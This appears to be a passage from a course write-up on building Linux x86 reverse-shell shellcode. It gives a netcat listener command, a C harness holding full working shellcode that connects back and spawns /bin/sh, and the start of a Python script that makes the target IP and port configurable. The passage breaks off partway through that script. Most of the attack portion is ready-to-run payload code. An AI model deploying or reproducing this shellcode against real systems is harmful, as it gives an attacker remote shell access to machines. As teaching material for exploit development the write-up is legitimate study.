 ## dup2 & execve 
The dup2 and execve calls are also the same as in the first assignment so there is the same code used like in the first assignment. If you don't know that they are doing please read [Assignment 1](../Assignment1/README.md).

## Executing the reverse shell
To test this we can run the compile.c script with the nasm file which will compile the assembly instructions to a runnable file. When executing this and setting a listener with netcat with nc -nlvp 1337 we can see that our reverse shell connects to the host and the shell is working:

![connect](images/compile.png)

![listener](images/listener.png)

We can also put the resulting shellcode in a c tool like we did in assignment 1 which you can see in the following:

``` c
#include<stdio.h>
#include<string.h>

unsigned char code[] = "\x31\xc0\x31\xdb\xb3\x01\x50\x6a\x01\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x89\xc7\x31\xc0\xfe\xc3\xfe\xc3\x68\x7f\x00\x00\x01\x66\x68\x05\x39\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\x89\xfb\x31\xc0\xb0\x3f\xcd\x80\x66\x49\x79\xf4\x31\xc0\x89\xc1\x89\xc2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";

void main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

## Easily configurable Port and IP
Like in the first assignment I used python to achieve this. First we have to take a look where the IP and port is specified in our shellcode where we see that we first have the shellcode before the IP then 2 bytes instructions and then the port and at the end the rest of the shellcode. So I was splitting the shellcode in 3 parts in the python code. Then I check for arguments because I implemented the function to pass the IP and the port as arguments. After that we have the same convertion for the port to network byte order as in assignment 1. Then the spcified IP is also converted to network byte order by splitting the IP formatting it and set the order of the bytes. Then all the parts with IP and port are combined togehter:
``` python
#!/usr/bin/python3
import sys;
import socket;

shellcodeBeforeIP = "\\x31\\xc0\\x31\\xdb\\xb3\\x01\\x50\\x6a\\x01\\x6a\\x02\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x89\\xc7\\x31\\xc0\\xfe\\xc3\\xfe\\xc3\\x68"
shellcodeAfterIP = "\\x66\\x68"
shellcodeAfterPort = "\\x66\\x6a\\x02\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xb0\\x66\\xcd\\x80\\x31\\xc9\\xb1\\x02\\x89\\xfb\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x66\\x49\\x79\\xf4\\x31\\xc0\\x89\\xc1\\x89\\xc2\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\xb0\\x0b\\xcd\\x80"

```